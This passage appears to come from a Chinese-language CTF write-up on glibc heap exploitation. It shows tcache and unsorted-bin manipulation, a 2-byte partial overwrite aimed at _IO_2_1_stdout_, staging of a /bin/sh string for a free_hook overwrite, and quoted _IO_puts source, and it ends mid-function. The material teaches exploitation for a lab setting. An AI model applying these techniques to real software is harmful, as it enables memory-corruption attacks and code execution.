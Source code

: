 再看看bins的布局

![](img/7f8b1cfd5318b3917570637ecb9be6cc.png)

我们伪造的chunk里面fd已经有了libc中的指针，接下来，我们通过申请合适大小的chunk，就能把libc中指针传递到chunk6的fd，使得0x40的tcache bin链上libc中的指针。

1.  #create后，libc中的指针传到了chunk6的fd处  
2.  #我们随便先把/bin/sh字符串保存到这里，最后free_hook时使用  
3.  create(sh,0x10,'/bin/sh') #11  

现在，再看看bins

![](img/fbd20d5d84304831453b5d653fe8c8b6.png)

因为，我们malloc(0x10)，所以，会**从****unsorted bin****里切割0x20****，所以unsorted bin****头变成了**

**0x555555757490****，然后libc****中的指针会被传到下一个chunk****，也就是0x555555757490 + 0x10 = 0x5555557574a0**

接下来，我们据需申请**大小不在****tcache bin****里的chunk****，来低位覆盖chunk6****的fd**，使得chunk6的fd有可能指向_IO_2_1_stdout_结构体

1.  #低2字节覆盖，使得chunk6的fd有1/16的可能指向_IO_2_1_stdout_结构体-0x10处  
2.  create(sh,0x10,p16((_IO_2_1_stdout_s - 0x10) & 0xFFFF)) #12  

我们**为什么要劫持****_IO_2_1_stdout_****结构体呢**？因为程序在创建堆后有一个puts调用

![](img/ca89e61fabee55c614fd2e571b6a144c.png)

我们来看看puts的源代码

1.  **int**  
2.  _IO_puts (**const** **char** *str)  
3.  {  
4.  **int** result = EOF;  
5.  _IO_size_t len = strlen (str);  
6.  _IO_acquire_lock (_IO_stdout);  
7.  **if** ((_IO_vtable_offset (_IO_stdout) != 0  
8.  || _IO_fwide (_IO_stdout, -1) == -1)  
9.  && _IO_sputn (_IO_stdout, str, len) == len  
10.  && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)  
11.  result = MIN (INT_MAX, len + 1);  
12.  _IO_release_lock (_IO_stdout);  
13.  **return** result;  
